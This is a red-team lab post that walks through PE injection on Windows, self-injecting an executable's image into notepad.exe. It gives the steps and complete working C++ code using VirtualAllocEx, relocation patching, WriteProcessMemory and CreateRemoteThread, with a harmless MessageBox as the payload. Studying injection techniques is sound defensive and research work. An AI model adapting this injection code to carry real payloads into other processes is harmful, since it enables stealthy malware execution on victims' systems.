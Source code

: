 ```yaml
---
layout: post
title: "2024-06-18-pe injection executing pes inside remote processes"
date: 2024-06-18
categories: code-injection-process-injection
tags: redteam, mitre, killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /pe-injection-executing-pes-inside-remote-processes/
---
```


---
description: Code Injection
---

# PE Injection: Executing PEs inside Remote Processes

This is a quick lab of a simplified way of injecting an entire portable executabe (PE) into another running process.

{% hint style="warning" %}
Note that in order to inject more complex PEs, additional DLLs in the target process may need to be loaded and Import Address Table fixed and for this, refer to my other lab [Reflective DLL Injection](reflective-dll-injection.md#resolving-import-address-table).
{% endhint %}

## Overview

In this lab, I wrote a simple C++ executable that self-injects its PE into a target process. This executable contains 2 functions:

* `main` - this is the function that performs the self-injection of the PE image into a specified remote/target process, which is going to be `notepad.exe` in this case;
* `InjectionEntryPoint` - this is the function that will get executed by the target process (notepad) once notepads gets injected with our PE.&#x20;
  * This function will pop a `MessageBox` with a name of the module the code is currently running from. If injection is successful, it should spit out a path of notepad.exe.

## Technique Overview

Inside the current process, that's doing the self-injection of its PE:

1. Get the image base address `imageBase`
2. Parse the PE headers and get its `sizeOfImage`
3. Allocate a block of memory (size of PE image retrieved in step 1). Let's call it `localImage`
4. Copy the image of the current process into the newly allocated local memory `localImage`
5. Allocate a new memory block (size of PE image retrieved in step 1) in a remote process - the target process we want to inject the currently running PE into. Let's call it `targetImage`
6. Calculate the delta between memory addresses `targetImage` and `imageBase`, let's call it `deltaImageBase`&#x20;
7. Relocate/rebase the PE that's stored in `localImage` to `targetImage`. For more information about image relocations, see my other lab [T1093: Process Hollowing and Portable Executable Relocations](process-hollowing-and-pe-image-relocations.md)
8. Write the patched PE into the `targetImage` memory location using `WriteProcessMemory`
9. Create remote thread and point it to `InjectionEntryPoint` function inside the PE target process

## Walkthrough

Getting `sizeOfImage` of the current process (local process) that will be injecting itself into a target process and allocating a new memory block in the local process:

![](<../../.gitbook/assets/image (206).png>)

In my case, the new memory block got allocated at address `0x000001813acc0000`. Let's copy the current process's image in there:

![](<../../.gitbook/assets/image (207).png>)

Let's allocate a new block of memory in the target process. In my case it got allocated at `0x000001bfc0c20000`:

![](<../../.gitbook/assets/image (208).png>)

Calculate the delta between `0x000001bfc0c20000` and `0x000001813acc0000` and perform [image base relocations](process-hollowing-and-pe-image-relocations.md#relocation). Once that's done, we can move over our rebased PE from `0x000001813acc0000` to `0x000001bfc0c20000` in the remote process using `WriteProcessMemory`.&#x20;

Below shows that our imaged has now been moved to the remote process:

![](<../../.gitbook/assets/image (209).png>)

Finally, we can create a remote thread and point it to the `InjectionEntryPoint` function inside the remote process:

```cpp
CreateRemoteThread(targetProcess, NULL, 0, (LPTHREAD_START_ROUTINE)((DWORD_PTR)InjectionEntryPoint + deltaImageBase), NULL, 0, NULL);
```

![New thread getting created inside notepad.exe](../../.gitbook/assets/newthread.gif)

## Demo

Below shows how we've injected the PE into the notepad (PID 11068) and executed its function `InjectionEntryPoint` which printed out the name of a module the code was running from, proving that the PE injection was succesful:

![](../../.gitbook/assets/pe-injection.gif)

## Code

Below is the commented code that performs the PE injection:

```cpp
#include <stdio.h>
#include <Windows.h>

typedef struct BASE_RELOCATION_ENTRY {
	USHORT Offset : 12;
	USHORT Type : 4;
} BASE_RELOCATION_ENTRY, * PBASE_RELOCATION_ENTRY;

DWORD InjectionEntryPoint()
{
	CHAR moduleName[128] = "";
	GetModuleFileNameA(NULL, moduleName, sizeof(moduleName));
	MessageBoxA(NULL, moduleName, "Obligatory PE Injection", NULL);
	return 0;
}

int main()
{
	// Get current image's base address
	PVOID imageBase = GetModuleHandle(NULL);
	PIMAGE_DOS_HEADER dosHeader = (PIMAGE_DOS_HEADER)imageBase;
	PIMAGE_NT_HEADERS ntHeader = (PIMAGE_NT_HEADERS)((DWORD_PTR)imageBase + dosHeader->e_lfanew);

	// Allocate a new memory block and copy the current PE image to this new memory block
	PVOID localImage = VirtualAlloc(NULL, ntHeader->OptionalHeader.SizeOfImage, MEM_COMMIT, PAGE_READWRITE);
	memcpy(localImage, imageBase, ntHeader->OptionalHeader.SizeOfImage);

	// Open the target process - this is process we will be injecting this PE into
	HANDLE targetProcess = OpenProcess(MAXIMUM_ALLOWED, FALSE, 9304);
	
	// Allote a new memory block in the target process. This is where we will be injecting this PE
	PVOID targetImage = VirtualAllocEx(targetProcess, NULL, ntHeader->OptionalHeader.SizeOfImage, MEM_COMMIT, PAGE_EXECUTE_READWRITE);

	// Calculate delta between addresses of where the image will be located in the target process and where it's located currently
	DWORD_PTR deltaImageBase = (DWORD_PTR)targetImage - (DWORD_PTR)imageBase;

	// Relocate localImage, to ensure that it will have correct addresses once its in the target process
	PIMAGE_BASE_RELOCATION relocationTable = (PIMAGE_BASE_RELOCATION)((DWORD_PTR)localImage + ntHeader->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_BASERELOC].VirtualAddress);
	DWORD relocationEntriesCount = 0;
	PDWORD_PTR patchedAddress;
	PBASE_RELOCATION_ENTRY relocationRVA = NULL;

	while (relocationTable->SizeOfBlock > 0)
	{
		relocationEntriesCount = (relocationTable->SizeOfBlock - sizeof(IMAGE_BASE_RELOCATION)) / sizeof(USHORT);
		relocationRVA = (PBASE_RELOCATION_ENTRY)(relocationTable + 1);

		for (short i = 0; i < relocationEntriesCount; i++)
		{
			if (relocationRVA[i].Offset)
			{
				patchedAddress = (PDWORD_PTR)((DWORD_PTR)localImage + relocationTable->VirtualAddress + relocationRVA[i].Offset);
				*patchedAddress += deltaImageBase;
			}
		}
		relocationTable = (PIMAGE_BASE_RELOCATION)((DWORD_PTR)relocationTable + relocationTable->SizeOfBlock);
	}

	// Write the relocated localImage into the target process
	WriteProcessMemory(targetProcess, targetImage, localImage, ntHeader->OptionalHeader.SizeOfImage, NULL);

	// Start the injected PE inside the target process
	CreateRemoteThread(targetProcess, NULL, 0, (LPTHREAD_START_ROUTINE)((DWORD_PTR)InjectionEntryPoint + deltaImageBase), NULL, 0, NULL);

	return 0;
}
```

## References

{% embed url="https://www.andreafortuna.org/2018/09/24/some-thoughts-about-pe-injection/" %}

{% embed url="https://blog.sevagas.com/PE-injection-explained" %}

{% embed url="https://www.malwaretech.com/2013/11/portable-executable-injection-for.html" %}
@spotheplanet
